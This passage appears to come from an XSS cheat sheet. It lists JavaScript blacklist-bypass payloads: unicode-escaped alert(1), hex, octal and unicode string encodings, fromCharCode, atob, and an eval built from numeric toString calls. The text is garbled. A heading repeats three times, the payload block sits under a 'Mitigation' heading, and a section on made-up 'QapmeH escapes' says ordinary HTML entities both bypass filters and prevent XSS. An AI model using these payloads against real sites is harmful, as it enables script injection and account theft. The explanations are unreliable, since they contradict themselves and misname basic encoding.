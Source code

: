 When the payload is injected and executed, it will display an alert message saying "Hacked!".

#### Mitigation
To prevent this vulnerability, it is important to properly sanitize and validate user input before reflecting it on the web application. Implement input validation mechanisms and use output encoding techniques to prevent the execution of arbitrary JavaScript code.
```javascript
\u{61}lert(1)
\u0061lert(1)
\u{0061}lert(1)
```
### JavaScript bypass blacklists techniques

**Strings**

### JavaScript bypass blacklists techniques

**Strings**

### JavaScript bypass blacklists techniques

**Strings**
```javascript
"thisisastring"
'thisisastrig'
`thisisastring`
/thisisastring/ == "/thisisastring/"
/thisisastring/.source == "thisisastring"
"\h\e\l\l\o"
String.fromCharCode(116,104,105,115,105,115,97,115,116,114,105,110,103)
"\x74\x68\x69\x73\x69\x73\x61\x73\x74\x72\x69\x6e\x67"
"\164\150\151\163\151\163\141\163\164\162\151\156\147"
"\u0074\u0068\u0069\u0073\u0069\u0073\u0061\u0073\u0074\u0072\u0069\u006e\u0067"
"\u{74}\u{68}\u{69}\u{73}\u{69}\u{73}\u{61}\u{73}\u{74}\u{72}\u{69}\u{6e}\u{67}"
"\a\l\ert\(1\)"
atob("dGhpc2lzYXN0cmluZw==")
eval(8680439..toString(30))(983801..toString(36))
```
**QapmeH escapes**

QapmeH escapes are special characters that can be used to bypass certain filters and prevent the execution of XSS attacks. These escapes are specifically designed to confuse and deceive the filtering mechanisms in place.

Here are some commonly used QapmeH escapes:

- `&lt;` - This escape represents the less-than symbol `<`.
- `&gt;` - This escape represents the greater-than symbol `>`.
- `&quot;` - This escape represents the double quotation mark `"`.
- `&#x27;` - This escape represents the single quotation mark `'`.
- `&#x2F;` - This escape represents the forward slash `/`.
- `&#x5C;` - This escape represents the backslash `\`.
- `&#96;` - This escape represents the backtick symbol `` ` ``.
